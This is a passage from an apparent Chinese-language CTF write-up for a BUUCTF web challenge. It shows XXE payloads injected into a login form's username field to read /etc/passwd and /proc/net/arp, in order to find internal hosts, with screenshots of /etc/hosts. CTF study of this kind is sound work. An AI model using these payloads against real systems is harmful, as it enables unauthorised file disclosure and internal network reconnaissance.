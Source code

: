 这里获取了登录的账号密码, 能够登录成功, 但是并没有什么用



读取以下敏感文件,看看有没有线索:

`/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<user><username>&xxe;</username><password>333</password></user>

```

`/proc/net/arp`: 看一下其他的内网主机

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "file:///proc/net/arp">
]>

<user><username>&xxe;</username><password>333</password></user>
```

<img src="/images/buuctf-web2/image-20221026143315937.png" alt="image-20221026143315937" style="zoom:67%;" />



`/etc/hosts`:

<img src="/images/buuctf-web2/image-20221026141936123.png" alt="image-20221026141936123" style="zoom:67%;" />
